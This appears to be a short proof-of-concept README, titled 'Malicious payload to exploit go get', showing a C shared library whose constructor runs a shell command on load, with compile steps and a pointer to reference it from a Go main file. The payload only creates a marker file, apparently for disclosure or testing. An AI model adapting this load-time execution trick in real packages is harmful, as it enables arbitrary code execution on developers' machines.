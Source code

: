 # Malicious payload to exploit go get

1. Create ```attack.c``` file:
  ```c
  #include<stdio.h>
	#include<stdlib.h>
	 
	static void malicious() __attribute__((constructor));
	 
	void malicious() {
	    system("touch /tmp/owned");
	}
  ```
2. Compile it
  - ```gcc -shared -o attack.so -fPIC attack.c```
3. Refer to the ```.so``` file in the ```main.go``` file.
